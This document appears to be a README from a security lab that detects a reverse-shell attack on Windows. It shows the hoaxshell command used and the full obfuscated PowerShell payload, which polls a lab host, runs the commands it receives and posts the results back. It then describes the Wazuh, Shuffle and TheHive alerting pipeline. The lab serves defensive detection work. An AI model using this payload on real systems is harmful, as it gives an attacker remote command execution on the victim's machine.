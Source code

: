 # Reverse Shell Execution

## Objective
Detect a suspicious external connection that opens a reverse shell from a Windows system.

## Course of attack
Attacker use hoaxshell to generate payload in Kali. Then this payload has to be included in to the PowerShell script. After its execution, attacker can get an access to command line of Windows.  
**Tool**: hoaxshell  
**Command**: `python3 hoaxshell.py -s 192.168.69.200 -r -H "Authorization"`  
**Tool**: PowerShell  
**Scrypt**: 
`$command = @'`
`$s='192.168.69.200:8080';$i='197e9fb0-2a86272c-0e33a75c';$p='http://';$v=Invoke-WebRequest -USEBaSicparsing -Uri $p$s/197e9fb0 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-Web''Request -USEBaSicparsing -Uri $p$s/2a86272c -Headers @{"Authorization"=$i}).Content;if ($c -ne 'Hello') {$r=ie''x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -Inpu''tObject $r;$t=Invoke-WebR''equest -Uri $p$s/0e33a75c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}`
`'@`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)` 
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -encodedCommand $encodedCommand`  

## Response
- Wazuh Agent detected login errors in Windows event logs by Sysmon and sent a custom rule “Multiple network connection initiated by PowerShell” to Wazuh.
- Wazuh uses configured Webhook to send alert to the Shuffle.
- After receiving a notification in Shuffle, the configured response scenario is automatically launched:
  - Creating alert in TheHive
  - Adding IP of attacker as observable to allert
  - Creating case with observable in TheHive
  - Sending notification to Discord Bot
- In TheHive, IP can be sent to check it with AbuseIPDB or VirusTotal


## Shuffle Workflow
![](../images/shuffle-workflow-shell.png)
